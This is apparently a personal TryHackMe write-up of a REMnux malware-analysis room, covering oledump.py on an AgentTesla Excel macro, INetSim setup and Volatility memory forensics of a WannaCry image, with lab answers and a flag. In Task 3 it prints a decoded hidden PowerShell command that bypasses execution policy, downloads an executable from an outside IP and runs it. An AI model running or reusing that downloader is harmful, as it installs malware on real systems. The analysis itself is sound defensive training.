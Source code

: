 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/re-mnux-getting-started/","created":"2024-11-26T11:23:00.000-05:00","updated":"2025-03-11T00:32:59.358-04:00"}
---
```


# Task 3 - File Analysis

- Using tool called “oledump.py” for forensic analysis for OLE2 files (Microsoft proprietary)
	- OLE2, stores multiple datatypes within a single file

![image 38.png](/img/user/TryHackMe/THM_Images/ee14bdbb3f75e30eb51e9291b8091e97.png)

Check out the datastreams (A#) with given letters, (A4: M [macro])

```Bash
oledump.py agenttesla.xlsm -s 4
```

![image 39.png](/img/user/TryHackMe/THM_Images/204eee1facbb27df9e9560ed853a2ba1.png)

Doing this produces a result that’s harder to read, so use the “—vbadecompress” flag to make it more human readable

```Bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

![image 40.png](/img/user/TryHackMe/THM_Images/3e7e50f8903591bbaa98134f27176d5f.png)

Focus on the “Sqtnew” file, realized that we can replace both ^ and * character with no characters, (replace with “”).

Can do with CyberChef

![image 41.png](/img/user/TryHackMe/THM_Images/f6119111f8ac4ad6c3971f7eeec1d298.png)

Get the output

> "powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } �PassThru; Invoke-WebRequest -Uri ""[http://193.203.203.67/rt/Doc-3737122pdf.exe](http://193.203.203.67/rt/Doc-3737122pdf.exe)"" -OutFile $TempFile; Start-Process $TempFile;"

This command is the VBA macro that runs once the .xlsm file is open. It opens Powershell in the background and downloads this file through the IP address. It’ll then start running the file.

> [!Question] 
**What Python tool analyzes OLE2 files, commonly called Structured Storage or Compound File Binary Format?**

> [!done] Answer
oledump.py

> [!Question] 
**What tool parameter we used in this task allows you to select a particular data stream of the file we are using it with?**

> [!done] Answer
-s

> [!question] 
**During our analysis, we were able to decode a PowerShell script. What command is commonly used for downloading files from the internet?**

> [!done] Answer
Invoke-WebRequest

> [!question] 
**What file was being downloaded using the PowerShell script?**

> [!done] Answer
Doc-3737122pdf.exe

> [!question] 
**During our analysis of the PowerShell script, we noted that a file would be downloaded. Where will the file being downloaded be stored?**

> [!done] `Answer`
`$TempFile`

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. How many data streams were presented for this file?**

![image 42.png](/img/user/TryHackMe/THM_Images/9f2d47fc366f1123bc564f90b7f15d5c.png)

> [!done] Answer
16

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. At what data stream number does the tool indicate a macro present?**

Based off the screenshot above

> [!done] Answer
8

# Task 4 - Fake Network to Aid Analysis

- INetSim: Internet Services Simulation Suite
	- Observes behaviours of malicious software in it’s network activities

INetSim Config

Do this on the RemuxVM (has the tool)
    
```Bash
sudo nano /etc/inetsim/inetsim.conf
```
    
Change the _dns_default_ip 0.0.0.0_ to the machine IP

![image 43.png](/img/user/TryHackMe/THM_Images/3da78d16985f5785377cb658a4dcac50.png)

![image 44.png](/img/user/TryHackMe/THM_Images/5a6687ce7e3f3ac74c3b6afe333da87d.png)
    
Run the command below to start the tool

```Bash
sudo inetsim
```

![image 45.png](/img/user/TryHackMe/THM_Images/62dc7e7bcf1f8d4d29b885cfc599de89.png)
    
Go back to attack box to and try to go to it’s IP address to see the INetSim’s homepage

![image 46.png](/img/user/TryHackMe/THM_Images/6de4163eee1390e38c7389e4f7acdfea.png)


Common behaviours of malware is to download binary or scripts, can mimic it with the command
    
```Bash
sudo wget https://10.10.153.203/second_payload.zip --no-check-certificate
```

![image 47.png](/img/user/TryHackMe/THM_Images/452fdab3ce8fa8bda5f9849d80d5ebcc.png)
    
Back on the Remuix, can stop it and it’ll create a report on connections, Usually saved in `var/log/inetsim/report/`

![image 48.png](/img/user/TryHackMe/THM_Images/4d6caa0cbb07f09e8de498596e3fb44c.png)

> [!Question]
> 
> **Download and scan the file named `flag.txt` from the terminal using the command `sudo wget https://10.10.153.203/flag.txt --no-check-certificate`. What is the flag?**

![image 49.png](/img/user/TryHackMe/THM_Images/f903580aae1216681b504e231cfdd592.png)

> [!done] Answer
Tryhackme{remnux_edition}

> [!Question]
> 
>**After stopping the inetsim, read the generated report. Based on the report, what URL Method was used to get the file flag.txt?**

> [!done] Answer
GET

# Task 5 - Memory Investigation: Evidence Preprocessing

- Volatility
	- Extracts artefacts from memory images
	- Saves output to txt for further examinations
	- This room focus on windows plugins like:
		- windows.pstree.PsTree
		- windows.pslist.PsList
		- windows.cmdline.CmdLine
		- windows.filescan.FileScan
		- windows.dlllist.DllList
		- windows.malfind.Malfind
		- windows.psscan.PsScan

Need to go to directory with .mem file and run the command 
	
```Bash
vol3 -f wcry.mem <plugin-here>

Example: vol3 -f wcry.mem windows.pstree.PsTree
```

Can do a loop statement to run the process in bulk
    
```Bash
for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; done
```

Can preprocess image with Linux **strings** utility, Extracts ASCII, 16-bit little-endian, and 16-bit big-endian strings.
    
```Bash
strings wcry.mem > wcry.strings.ascii.txt
strings -e l wcry.mem  > wcry.strings.unicode_little_endian.txt
strings -e b wcry.mem > wcry.strings.unicode_big_endian.txt
```
    

> [!question] 
**What plugin lists processes in a tree based on their parent process ID?**

> [!done] Answer
PsTree

> [!question] 
**What plugin is used to list all currently active processes in the machine?**

> [!done] Answer
PsList

> [!question] 
**What Linux utility tool can extract the ASCII, 16-bit little-endian, and 16-bit big-endian strings?**

> [!done] Answer
strings

> [!question] 
**By running vol3 with the Malfind parameter, what is the first (1st) process identified suspected of having an injected code?**

![1000](/img/user/TryHackMe/THM_Images/874a8ae56193006c240195f1372c8b3d.png)

> [!done] Answer
csrss.exe

> [!question] 
**Continuing from the previous question (Question 6), what is the second (2nd) process identified suspected of having an injected code?**

> [!done] Answer
winlogon.exe

> [!question] 
**By running vol3 with the DllList parameter, what is the file path or directory of the binary @WanaDecryptor@.exe?**

![image 51.png](/img/user/TryHackMe/THM_Images/a97a19fae91c6b6db0b8a60583f5540e.png)

![image 52.png](/img/user/TryHackMe/THM_Images/dac14b46be2f2c04305d76d93a8a95d5.png)

> [!done] Answer
`C:\Intel\ivecuqmanpnirkt615`